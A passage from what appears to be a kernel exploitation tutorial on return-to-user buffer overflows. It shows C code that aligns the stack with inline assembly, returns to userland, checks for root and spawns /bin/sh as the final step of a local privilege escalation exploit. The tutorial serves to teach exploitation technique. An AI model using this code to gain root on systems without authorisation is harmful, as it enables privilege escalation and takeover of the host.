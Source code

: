 <img src="/assets/images/kernel/bof/return_to_user_9.png" style="width:100%; height:100%;" />

### Spawning a shell
As mentioned earlier, the stack needs to be aligned 16 bytes before spawning a shell. The **my_jump** function is used for that. The below code aligns the stack 16 bytes and spawns a shell if root privileges has been achieved:

```c
void get_shell(void){
    puts("[*] Returned to userland");
    if (getuid() == 0){
        printf("[*] UID: %d, got root!\n", getuid());
        system("/bin/sh");
        while(1) {
            puts("Done");    
        }
    } else {
        printf("[!] UID: %d, didn't get root\n", getuid());
        exit(-1);
    }
}

uint64_t shell_addr = (uint64_t)&get_shell;

void my_jump(void) { // needed because of stack alignment
    __asm__ volatile(
        ".intel_syntax noprefix;"
        "mov rax, qword ptr [shell_addr];"
        "push rax;"
        "ret;"
        ".att_syntax;"
         : /* no outputs */
        : /* no inputs */
        : "rax"
    );
}
```
